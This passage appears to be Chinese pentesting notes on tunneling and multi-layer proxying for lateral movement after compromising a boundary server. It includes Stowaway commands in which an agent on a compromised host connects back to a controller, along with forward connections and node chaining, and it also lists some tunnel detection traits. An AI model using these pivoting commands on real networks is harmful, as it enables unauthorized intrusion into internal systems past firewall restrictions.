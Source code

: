 介绍隧道概念：传输隧道按层划分：应用层啊，传输层啊。HTTP，TCP，DNS，SSH，SOCKS，SOCKS5，ICMP。隧道原理是什么

根端口转发做出对比：什么时候选端口转发或隧道？它俩优劣势是什么。最好拿前面 SSH 动态端口转发小节做例子。

最后谈谈实战中拿下边界服务器内网横向渗透时多层代理如何玩儿，不同网段怎么通信，是使用正向还是反向。

大内网怎么扫主机：找网关，确认网段。ping 确定存活主机，如果机器之间禁 icmp 如何探测。

隧道特征：

-   http 隧道，新增文件
-   icmp 隧道数据大小比正常的大。
-   dns 隧道，与内部已有的 dns 主机不同，大量 dns 查询。

#### 3.1.1 SOCKS

客户端软件：

-   Windows：Proxifier
-   Linux：proxychanis

##### Stowaway

1.反向连接

服务端开启监听

```plaintext
.\windows_x64_admin.exe -s test -proxyp asdf -proxyu proxy -l 8888
```

客户端主动连接服务端

```plaintext
root@ubuntu:/home/web/Desktop# ./linux_x64_agent -c 172.20.10.2:8888 -s test 
```

要注意客户端连接服务端 8888 端口后，其他客户端无法再使用此端口。

2.正向连接

客户端开启监听

```plaintext
C:\>windows_x64_agent.exe -l 10000 -s test
```

服务端主动连接客户端

```plaintext
.\windows_x64_admin.exe -c 127.0.0.1:10000 -s test
```

3.多级代理连接

一般情况下第一层代理，很可能因为网络防火墙入站规则限制较严格，会使用反向链接。拿到一个连接后，会生成一个节点。

节点内正向连接，客户端开启监听

```plaintext
C:\>windows_x64_agent.exe -l 10000 -s test
```

进入节点主动连接客户端
